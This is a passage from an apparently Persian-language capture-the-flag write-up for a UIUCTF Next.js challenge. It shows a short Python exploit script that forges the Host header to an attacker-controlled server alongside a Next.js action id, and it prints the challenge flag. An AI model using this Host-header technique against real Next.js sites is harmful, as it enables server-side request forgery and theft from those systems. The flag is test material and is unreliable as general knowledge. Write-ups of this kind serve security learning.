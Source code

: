 و برای ریکویست post


```python
import requests


headers = {
    "Host":"attacker-ip:4000//", # the flask server (note to // at the end of host is required)
    "Next-Action":"5cdaa80b9099b9973b11269421a40d52c0e11f31", # the action id of next.js
}
res = requests.post("http://log-action.challenge.uiuc.tf/login", headers=headers, data="{}")

print(res.text)
```

---
??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`uiuctf{close_enough_nextjs_server_actions_welcome_back_php}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)

